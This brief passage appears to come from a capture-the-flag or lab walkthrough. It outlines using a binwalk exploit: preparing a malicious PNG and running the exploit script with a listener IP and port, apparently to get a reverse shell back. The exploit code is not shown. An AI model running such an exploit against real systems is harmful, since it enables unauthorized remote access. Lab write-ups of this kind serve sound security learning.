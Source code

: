 ![](./IMG/48.png)

### binwalk - exploit 
- Download the exploit code and following the step 
- Prepare the PNG file 
![](./IMG/55.png)
- Check Usage of exploit code 
- Usage: 
```
python exploit.py <PNG file name> <Listent IP> <Listen Port>
```
- Exploit  
```
python binwalk_exp.py exp.png 10.10.16.107 1336
```
